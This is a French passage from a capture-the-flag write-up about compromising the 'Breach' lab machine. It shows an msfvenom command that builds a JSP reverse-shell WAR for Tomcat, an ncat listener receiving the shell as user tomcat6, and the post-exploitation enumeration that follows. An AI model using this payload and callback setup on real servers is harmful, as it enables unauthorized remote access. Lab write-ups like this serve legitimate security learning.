 [GitHub - p0dalirius/Tomcat-webshell-application: A webshell application and interactive shell for pentesting Apache Tomcat servers.](https://github.com/p0dalirius/Tomcat-webshell-application)

Mais ça ne semblait pas fonctionner, peut être parce que la version de Tomcat est assez ancienne. Finament j'ai créé le WAR avec `msfvenom` :

```bash
msfvenom --payload java/jsp_shell_reverse_tcp -f war LHOST=192.168.110.1 LPORT=9999 -o backdoor.war
```

On met un ncat en écoute et on charge l'URL où le war s'est déployé (une fois uploadé via l'interface web de Tomcat) :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.110.140.
Ncat: Connection from 192.168.110.140:49278.
id
uid=104(tomcat6) gid=112(tomcat6) groups=112(tomcat6)
```

Il y a deux utilisateurs. L'un s'appelle `Milton` (tout le CTF s'inspire du film [35 heures, c'est déjà trop](https://fr.wikipedia.org/wiki/35_heures,_c%27est_d%C3%A9j%C3%A0_trop). Il a une copie du keystore que l'on connait déjà ainsi qu'un script world-writable mais ce dernier contient du texte (pas de commandes bash) sans importance.

```shellsession
tomcat6@Breach:/tmp$ ls -al /home/milton
total 156
drwxr-xr-x 3 milton milton   4096 Jun  6  2016 .
drwxr-xr-x 4 root   root     4096 Jun  4  2016 ..
-rw------- 1 milton milton    234 Jun 11  2016 .bash_history
-rw-r--r-- 1 milton milton    220 May 20  2016 .bash_logout
-rw-r--r-- 1 milton milton   3637 May 20  2016 .bashrc
drwx------ 2 milton milton   4096 May 20  2016 .cache
-rw-rw-r-- 1 milton milton   2245 May 20  2016 .keystore
-rw------- 1 milton milton    407 Jun  4  2016 .mysql_history
-rw-r--r-- 1 milton milton    675 May 20  2016 .profile
-rw-r--r-- 1 root   root       66 Jun  4  2016 .selected_editor
-rw-rw-r-- 1 milton milton 111255 Jun  4  2016 my_badge.jpg
-rwxrwxrwx 1 milton milton    755 Jun  4  2016 some_script.sh
```

Je remarque dans les processus le programme a l'origine du grand nombre de ports que Nmap a détecté :

`daemon     988  0.0  1.8 121688 18440 ?        Ssl  09:33   0:00 /usr/local/bin/portspoof -c /usr/local/etc/portspoof.conf -s /usr/local/etc/portspoof_signatures -D`

Mais si on utilise `ss` on remarque seulement 4 ports en écoute sur le système. En fait il y a un script d'init (dont je parle plus bas) qui redirige tout un cas de ports avec `iptables` sur le port en écoute de *portspoof*.

Ce qu'il faut prendre en considération c'est que MySQL écoute bien sur son port standard et via un fichier de configuration PHP présent sur le système on retrouve les identifiants (`root` sans mot de passe).
